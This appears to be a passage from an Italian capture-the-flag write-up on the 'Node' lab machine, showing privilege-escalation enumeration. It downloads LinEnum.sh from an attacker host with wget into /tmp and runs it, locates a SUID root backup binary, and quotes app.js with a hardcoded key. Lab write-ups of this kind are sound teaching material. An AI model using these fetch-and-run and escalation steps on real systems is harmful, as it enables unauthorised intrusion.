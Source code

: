 # ROOT FLAG WHITOUT SHELL

Per prima cosa deviamo a quale gruppo apparitene l'utente tom

```bash
tom@node:~$ id
uid=1000(tom) gid=1000(tom) groups=1000(tom),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),115(lpadmin),116(sambashare),1002(admin)
```

Importiamo LinEnum, gli diamo i permessi di esecuzione e lo lanciamo 

```
tom@node:~$ pwd
/home/tom
tom@node:~$ cd /tmp/
tom@node:/tmp$ wget http://10.10.14.9:8000/LinEnum.sh
--2023-07-07 06:35:23--  http://10.10.14.9:8000/LinEnum.sh
Connecting to 10.10.14.9:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46631 (46K) [text/x-sh]
Saving to: ‘LinEnum.sh’

LinEnum.sh          100%[===================>]  45.54K  --.-KB/s    in 0.1s

2023-07-07 06:35:23 (401 KB/s) - ‘LinEnum.sh’ saved [46631/46631]

tom@node:/tmp$ ls
LinEnum.sh
mongodb-27017.sock
systemd-private-23535b5ea8d74134a92ae4e95523326e-systemd-timesyncd.service-0Imbfe
vmware-root
tom@node:/tmp$ chmod +x LinEnum.sh
tom@node:/tmp$ ./LinEnum.sh
```

Dall'output di LinEnum cerchiamo  eventuali informazioni/file associati all'ID di Tom o ai gruppi in cui si trova.
Dopo aver setacciato tutto l'output dello script, notiamo il seguente file che ha il bit SUID impostato.

```bash
-rwsr-xr-- 1 root admin 16484 Sep  3  2017 /usr/local/bin/backup
```

Poiché il bit SUID è impostato per questo file, verrà eseguito con il livello di privilegio che corrisponde all'utente che possiede il file. In questo caso, il file è di proprietà di root, quindi il file verrà eseguito con i privilegi di root. Dal comando precedente che abbiamo eseguito, sappiamo che Tom è nel gruppo 1002 (admin) e quindi può leggere ed eseguire questo file.
Abbiamo visto questo file essere chiamato nello script app.js.

```bash
....  
const backup_key  = '45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474';  
....app.get('/api/admin/backup', function (req, res) {  
    if (req.session.user && req.session.user.is_admin) {  
      var proc = spawn('/usr/local/bin/backup', ['-q', backup_key, __dirname ]);  
      var backup = '';proc.on("exit", function(exitCode) {  
        res.header("Content-Type", "text/plain");  
        res.header("Content-Disposition", "attachment; filename=myplace.backup");  
        res.send(backup);  
      });proc.stdout.on("data", function(chunk) {  
        backup += chunk;  
      });proc.stdout.on("end", function() {  
      });  
    }  
    else {  
```